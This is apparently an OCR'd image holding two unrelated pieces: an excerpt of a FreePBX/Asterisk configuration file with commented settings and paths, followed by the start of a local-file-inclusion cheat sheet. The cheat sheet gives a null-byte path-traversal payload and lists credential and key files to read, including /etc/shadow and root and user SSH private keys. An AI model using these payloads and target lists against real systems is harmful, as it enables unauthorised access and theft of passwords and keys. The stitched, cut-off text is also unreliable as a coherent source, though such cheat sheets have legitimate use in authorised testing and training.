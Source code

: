 USEQUEUESTATE=true|false # DEFAULT VALUE: false # Setting this flag will generate the required dialplan to integrate with the following Asterisk patch: # <https://issues.asterisk.org/view.php?id=15168> # This feature is planned for a future 1.6 release but given the existence of the patch can be used prior. Once # the release version is known, code will be added to automatically enable this format in versions of Asterisk # that support it. # USEGOOGLEDNSFORENUM=true|false # DEFAULT VALUE: false # Setting this flag will generate the required global variable so that enumlookup.agi will use Google DNS # 8.8.8.8 when performing an ENUM lookup. Not all DNS deals with NAPTR record, but Google does. There is a # drawback to this as Google tracks every lookup. If you are not comfortable with this, do not enable this # setting. Please read Google FAQ about this: <http://code.google.com/speed/public-dns/faq.html#privacy> # MOHDIR=subdirectory_name # This is the subdirectory for the MoH files/directories which is located in ASTVARLIBDIR # if not specified it will default to mohmp3 for backward compatibility. MOHDIR=mohmp3 # RELOADCONFIRM=true|false # DEFAULT VALUE: true # When set to false, will bypass the confirm on Reload Box # FCBEEPONLY=true|false # DEFAULT VALUE: false # When set to true, a beep is played instead of confirmation message when activating/de-activating: # CallForward, CallWaiting, DayNight, DoNotDisturb and FindMeFollow # DISABLECUSTOMCONTEXTS=true|false # DEFAULT VALUE: false # Normally FreePBX auto-generates a custom context that may be usable for adding custom dialplan to modify the # normal behavior of FreePBX. It takes a good understanding of how Asterisk processes these includes to use # this and in many of the cases, there is no useful application. All includes will result in a WARNING in the # Asterisk log if there is no context found to include though it results in no errors. If you know that you # want the includes, you can set this to true. If you comment it out FreePBX will revert to legacy behavior # and include the contexts. # AMPMODULEXML lets you change the module repository that you use. By default, it # should be set to <http://mirror.freepbx.org/> - Presently, there are no third # party module repositories. AMPMODULEXML=<http://mirror.freepbx.org/> # AMPMODULESVN is the prefix that is appended to tags in the XML file. # This should be set to <http://mirror.freepbx.org/modules/> AMPMODULESVN=<http://mirror.freepbx.org/modules/> AMPDBNAME=asterisk ASTETCDIR=/etc/asterisk ASTMODDIR=/usr/lib/asterisk/modules ASTVARLIBDIR=/var/lib/asterisk ASTAGIDIR=/var/lib/asterisk/agi-bin ASTSPOOLDIR=/var/spool/asterisk ASTRUNDIR=/var/run/asterisk ASTLOGDIR=/var/log/asterisk



<https://evi1us3r.wordpress.com/lfi-cheat-sheet/>
<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal>
<https://highon.coffee/blog/lfi-cheat-sheet/>
<https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf>

LFI Cheat Sheet  
**Useful LFI files**
../../../../../etc/passwd%00
 
**Linux:**
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
 